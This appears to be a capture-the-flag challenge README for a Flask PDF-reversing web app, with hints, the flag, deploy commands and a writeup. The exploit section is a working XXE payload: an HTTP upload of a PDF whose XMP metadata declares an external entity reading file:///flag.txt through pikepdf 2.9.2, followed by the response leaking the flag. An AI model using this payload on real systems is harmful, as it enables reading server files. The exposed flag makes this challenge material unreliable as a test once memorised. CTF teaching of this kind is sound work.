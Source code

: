 ## Category:
* Web

## Description:
Мой друг долго не мог понять, что не так с pdf'кой с того сайта. АХАХАХ 
/flag.txt

## Flag:
* YetiCTF{1eV3l_ulTRa_H4ck3r}

## Hints
1. Где храниться метаданные в pdf файлах?
2. Что за сущность такая?
3. xmp -> xxe (Это на случай если никто не решит и до конца останеться 30 минут)

## TODO/Issues:
* Crontab don't working in docker container. This can lead to out of storange, beacause all uploaded pdfs save in /tmp/pdfcache.

## Deploy:
* `docker build -t jokester . && docker run -d -p 4040:4040 jokester`
* `http://127.0.0.1:4040`

## Writeup:

### Application
Web flask based python application for reverse pdf files (first page = last page and last page = first page).

### Vulnerabulity
Application use pikepdf 2.9.2 lib. This lib vulnerable to xmp xxe in pdf file, while reading pdf metadata. When you loading pdf file, you can check: pdf version, page quantity, metadata(vuln). See more in exploit chapter.

### Exploit

#### Request

```
POST / HTTP/1.1
Host: 192.168.50.232:4040
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------2035132012485856836846648411
Content-Length: 38238
Origin: http://192.168.50.232:4040
Connection: close
Referer: http://192.168.50.232:4040/
Upgrade-Insecure-Requests: 1

-----------------------------2035132012485856836846648411
Content-Disposition: form-data; name="file"; filename="malicose_new.pdf"
Content-Type: application/pdf

%PDF-1.4
%¿÷¢þ
1 0 obj
<< /Metadata 3 0 R /Pages 4 0 R /Type /Catalog >>
endobj
2 0 obj
<< /CreationDate (D:20211011185659+05'00') /ModDate (D:20211011185659+05'00') /Producer (iText® 5.5.11 ©2000-2017 iText Group NV \(AGPL-version\)) /Title <feff04170430044f0432043b0435043d04380435> >>
endobj
3 0 obj
<< /Subtype /XML /Type /Metadata /Length 326 >>
stream
<?xpacket begin='\xef\xbb\xbf' id='W5M0MpCehiHzreSzNTczkc9d'?>
<!DOCTYPE rdf:RDF [<!ENTITY xxe SYSTEM "file:///flag.txt">]>
<x:xmpmeta xmlns:x='adobe:ns:meta/' x:xmptk='Image'>
<rdf:RDF xmlns:rdf="http://www.w3.org/1999/02/22-rdf-syntax-ns#">
<note>
<to>&xxe;</to>
<from>xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx</from>
</note>
</rdf:RDF>
</x:xmpmeta>
<?xpacket end='w'?>

endstream
endobj
4 0 obj
<< /Count 1 /Kids [ 5 0 R ] /Type /Pages >>
endobj
5 0 obj
<< /Contents 6 0 R /MediaBox [ 0 0 612 792 ] /Parent 4 0 R /Resources << /Font << /F1 7 0 R /F2 8 0 R >> >> /Type /Page >>
endobj


[...SOME PDF DATA...]


0000004537 00000 n 
0000018684 00000 n 
trailer << /Info 2 0 R /Root 1 0 R /Size 17 /ID [<fbb909c8e1ac9e809ed63bb50b18fa2a><aa5ddc7af815478197a1ba39b3a0768d>] >>
startxref
37455
%%EOF

-----------------------------2035132012485856836846648411--

```

#### Response

```
HTTP/1.1 200 OK
Server: gunicorn
Date: Thu, 21 Oct 2021 14:41:16 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 3091

<!doctype html>
<title>PDF Reverser - PDF Reverser</title>
<link rel="stylesheet" href="/static/css/bootstrap.css">


[...SOME HTML...]


    </div>
    <div id="collapseThree" class="collapse" aria-labelledby="headingThree" data-parent="#accordionExample">
      <div class="card-body">
        &lt;x:xmpmeta xmlns:x=&#34;adobe:ns:meta/&#34; x:xmptk=&#34;Image&#34;&gt;
&lt;rdf:RDF xmlns:rdf=&#34;http://www.w3.org/1999/02/22-rdf-syntax-ns#&#34;&gt;
&lt;note&gt;
&lt;to&gt;YetiCTF{1eV3l_ulTRa_H4ck3r}
&lt;/to&gt;
&lt;from&gt;xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx&lt;/from&gt;
&lt;/note&gt;
&lt;/rdf:RDF&gt;
&lt;/x:xmpmeta&gt;
      </div>
    </div>
  </div>
</div>
<div class="container text-center">  
</div>
</section>

<script type="text/javascript" src="/static/js/jquery-3.6.0.min.js"></script>
<script type="text/javascript" src="/static/js/bootstrap.js"></script>
```
